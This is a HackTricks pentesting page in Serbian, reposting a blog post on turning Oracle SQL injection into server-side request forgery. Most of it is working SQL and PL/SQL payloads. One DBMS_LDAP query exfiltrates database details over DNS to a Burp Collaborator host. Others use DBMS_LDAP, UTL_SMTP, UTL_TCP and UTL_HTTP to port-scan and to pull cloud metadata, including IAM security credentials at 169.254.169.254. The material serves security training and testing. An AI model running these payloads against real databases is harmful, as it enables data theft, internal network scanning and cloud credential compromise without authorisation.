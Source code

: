 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Poslužite se ovim postom kao kopijom iz wayback mašine obrisanog posta sa [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Korišćenje Oracle-a za slanje Out of Band HTTP i DNS zahteva je dobro dokumentovano, ali kao sredstvo za ekfiltraciju SQL podataka u injekcijama. Uvek možemo modifikovati ove tehnike/funkcije da bismo uradili druge SSRF/XSPA.

Instalacija Oracle-a može biti zaista bolna, posebno ako želite da postavite brzu instancu da isprobate komande. Moj prijatelj i kolega iz [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), ukazao mi je na [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) koji mi je omogućio da postavim instancu na t2.large AWS Ubuntu mašini i Docker-u.

Pokrenuo sam docker komandu sa `--network="host"` flag-om kako bih mogao da imitiram Oracle kao nativnu instalaciju sa punim pristupom mreži, tokom ovog blog posta.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle пакети који подржавају спецификацију URL-а или Име хоста/Број порта <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Да бих пронашао било које пакете и функције које подржавају спецификацију хоста и порта, извршио сам Google претрагу на [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Конкретно,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Pretraga je vratila sledeće rezultate (neki od njih se ne mogu koristiti za izvođenje izlazne mreže)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Ova gruba pretraga očigledno preskočuje pakete kao što je `DBMS_LDAP` (koji omogućava prosleđivanje imena hosta i broja porta) jer [stranica sa dokumentacijom](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) jednostavno upućuje na [drugu lokaciju](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Stoga, može postojati još Oracle paketa koji se mogu zloupotrebiti za slanje izlaznih zahteva, a koje sam možda propustio.

U svakom slučaju, hajde da pogledamo neke od paketa koje smo otkrili i naveli iznad.

**DBMS\_LDAP.INIT**

Paket `DBMS_LDAP` omogućava pristup podacima sa LDAP servera. Funkcija `init()` inicijalizuje sesiju sa LDAP serverom i uzima ime hosta i broj porta kao argument.

Ova funkcija je ranije dokumentovana da prikazuje eksfiltraciju podataka preko DNS-a, kao ispod
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Međutim, s obzirom na to da funkcija prihvata ime hosta i broj porta kao argumente, možete to koristiti da funkcioniše kao skener portova.

Evo nekoliko primera
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` pokazuje da je port zatvoren dok vrednost sesije ukazuje na to da je port otvoren.

**UTL\_SMTP**

Paket `UTL_SMTP` je dizajniran za slanje e-mailova preko SMTP-a. Primer dat na [Oracle dokumentacionom sajtu pokazuje kako možete koristiti ovaj paket za slanje e-maila](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Za nas, međutim, zanimljivo je to što omogućava da se navedu host i specifikacija porta.

Grubi primer je prikazan ispod sa funkcijom `UTL_SMTP.OPEN_CONNECTION`, sa vremenskim ograničenjem od 2 sekunde.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` pokazuje da je port otvoren, ali nije uspostavljena SMTP veza, dok `ORA-29278: SMTP transient error: 421 Service not available` pokazuje da je port zatvoren.

**UTL\_TCP**

Paket `UTL_TCP` i njegove procedure i funkcije omogućavaju [TCP/IP baziranu komunikaciju sa servisima](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Ako je programiran za određeni servis, ovaj paket može lako postati način za pristup mreži ili izvršiti potpune Server Side Requests, jer se svi aspekti TCP/IP veze mogu kontrolisati.

Primer [na Oracle dokumentacionom sajtu pokazuje kako možete koristiti ovaj paket za uspostavljanje sirove TCP veze za preuzimanje web stranice](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Možemo ga malo pojednostaviti i koristiti za slanje zahteva na instancu metapodataka, na primer, ili na proizvoljni TCP/IP servis.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Zanimljivo je da, zbog sposobnosti kreiranja sirovih TCP zahteva, ovaj paket se takođe može koristiti za upit usluge meta-podataka Instance svih provajdera u oblaku, jer se tip metode i dodatni zaglavlja mogu proslediti unutar TCP zahteva.

**UTL\_HTTP i Web Zahtevi**

Možda je najčešća i najšire dokumentovana tehnika u svakom tutorijalu o Out of Band Oracle SQL Injection [`UTL_HTTP` paket](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Ovaj paket je definisan u dokumentaciji kao - `UTL_HTTP paket omogućava Hypertext Transfer Protocol (HTTP) pozive iz SQL i PL/SQL. Možete ga koristiti za pristup podacima na Internetu preko HTTP-a.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Možete dodatno koristiti ovo za izvođenje nekih rudimentarnih skeniranja portova sa upitima kao što su
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` ili `TNS:operation timed out` je znak da je TCP port zatvoren, dok je `ORA-29263: HTTP protocol error` ili podaci znak da je port otvoren.

Drugi paket koji sam koristio u prošlosti sa različitim uspehom je [`GETCLOB()` metoda `HTTPURITYPE` Oracle apstraktnog tipa](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) koja vam omogućava interakciju sa URL-om i pruža podršku za HTTP protokol. `GETCLOB()` metoda se koristi za preuzimanje GET odgovora sa URL-a kao [CLOB tip podataka.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
